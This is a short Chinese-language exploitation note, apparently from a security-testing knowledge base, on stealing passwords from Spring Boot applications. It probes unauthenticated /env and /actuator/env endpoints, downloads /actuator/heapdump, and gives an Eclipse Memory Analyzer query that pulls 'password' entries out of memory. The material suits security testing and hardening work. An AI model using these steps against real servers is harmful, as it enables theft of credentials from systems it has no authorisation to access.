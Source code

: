 Spring Boot 提取内存密码
========================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

> 访问如下路径如果有数据说明存在漏洞

**Spring Boot 1.x版本**`http://www.0-sec.org:8090/env`

**Spring Boot 2.x版本**`http://www.0-sec.org:8090/actuator/env`![2.png](resource/SpringBoot提取内存密码/media/rId24.png)

> 当发现存在未授权漏洞时，可以直接访问 `/actuator/heapdump`
> 下载内存，提取密码

`http://www.0-sec.org:8090/actuator/heapdump`

> heapdump文件下载完成之后可以利用Eclipse Memory Analyzer 来解析内存文件

    http://www.eclipse.org/mat/downloads.php

> 匹配内存中password字符串，并不一定能匹配完，可以通过`/actuator/env`得到的`JDBC`信息再来匹配关键字

`select * from java.util.Hashtable$Entry x WHERE (toString(x.key).contains("password"))`

![1.png](resource/SpringBoot提取内存密码/media/rId25.png)

